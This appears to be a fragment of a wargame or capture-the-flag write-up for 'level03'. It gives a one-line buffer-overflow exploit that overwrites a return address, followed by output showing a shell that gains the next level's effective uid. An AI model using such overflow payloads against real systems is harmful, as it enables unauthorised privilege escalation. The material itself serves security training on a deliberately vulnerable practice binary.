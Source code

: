 ## exploit
```sh
level3@io:/levels$ ./level03 $(python -c "print 76*'A'+'\x74\x84\x04\x08'")
This is exciting we're going to 0x8048474
Win.
sh-4.3$ id
uid=1003(level3) gid=1003(level3) euid=1004(level4) groups=1003(level3),1029(nosu)
```
